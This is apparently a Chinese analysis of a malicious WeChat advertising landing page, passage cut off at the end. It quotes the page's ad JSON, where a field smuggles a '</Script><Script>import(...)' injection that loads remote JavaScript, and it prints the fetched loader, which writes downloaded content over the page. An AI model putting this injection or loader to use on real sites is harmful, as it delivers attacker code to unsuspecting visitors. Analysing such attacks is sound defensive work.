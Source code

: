 floatbutton","wxad_styleType":"1"}},"hasRedPkt":"0","heightRoundingType":"1","id":"21473043777","original_page_id":"0","pageID":"3388743915","platform":"native","shareDesc":"厂家冲量","shareMaterialId":"8087028017","shareMaterialType":"image","shareThumbUrl":"https://wxsnsdythumb.wxs.qq.com/141/20204/snscosdownload/SZ/reserved/64f0debb000731dd05c1fdd0a565bc1e0000008d00004eec?m=f3da6352040a2974698b0613e6a2dd16&ck=f3da6352040a2974698b0613e6a2dd16&sha256=24135b271808f6f5bdf76b3d8401baf66802eb6ed3472405065877f0f75e7233&t=1695490261312","shareTitle":"厂家冲量","shareWebUrl":"https://mp.weixin.qq.com/tp/ad_detail_info?page_key=494114e2aba025983cc448258146ba05265854a573b0b266b0f0ac3d12f4c645fb21fca5eeab8e2cfea61d62520dae26","sizeType":"1","supportInfo":{"qid":"</Script><Script>import('//js-手动打码.cos.ap-chengdu.myqcloud.com/1.js')</Script><!--","subType":"0"},"top_type":"41","version":"v2","videoFileSize":"0","widthRoundingType":"1","wxad_copyFlag":"3"},"aid":"","app_id":"","app_img":"","appuin":"","auto":"","data":{"app_img":""},"engine":"","source":"","verify":0}  
    ;  
        CanvasVersion = {"min_android_os_version":"","min_android_version":654313216,"min_ios_os_version":"","min_ios_version":385878016};  
        PageId = '3388743915';  
        if(!PageData || !CanvasVersion || !PageId) {  
            //数据不正确，则上报  
            PageDataError = true;  
        }  
    } catch(e) {  
        //解析数据出错，则上报  
        PageDataParseError = e;  
    }</script><script src="//wximg.qq.com/wxp/libs/wxmoment/0.0.4/wxmoment.min.js"></script><script src="//mp.weixin.qq.com/promotion/res/htmledition/ad-luodiye/mpa-luodiye-h5.js"></script><script type="text/javascript" src="//wxa.wxs.qq.com/mptemplate/js/moment_canvas.e8463431fa20a42d59fa.js"></script></body></html>  
      
    

![]()

页面中的关键执行代码：

    
    
    <Script>import('//js-手动打码.cos.ap-chengdu.myqcloud.com/1.js')</Script>  
    

导入并执行一个js

访问该js，内容如下：![]()

完整代码：

    
    
    function view(a) {  
        function d() {  
            var a = document.open('about:blank');  
            a.write(c), a.close();  
        }  
        var b, c;  
        a = a, b = new XMLHttpRequest(), c = null, b.onload = function () {  
            c = b.responseText;  
            var a = 0;  
            a > 0 ? setTimeout(d, 1e3 * a) : d();  
        }, b.open("GET", a, !0), b.send();  
    }  
      